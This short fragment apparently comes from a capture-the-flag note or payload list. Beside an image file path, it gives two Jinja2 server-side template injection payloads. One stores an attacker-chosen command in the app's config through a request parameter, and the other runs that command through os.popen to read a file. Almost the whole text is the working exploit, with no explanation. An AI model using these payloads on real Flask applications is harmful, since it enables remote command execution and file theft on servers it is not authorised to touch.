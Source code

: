 SSTI:
{{lipsum.__globals__.os.popen(config.x).read()}}
{{config.update(x=request.args[%27a%27])}}&a=cat%20truly_an_arbitrarily_named_file
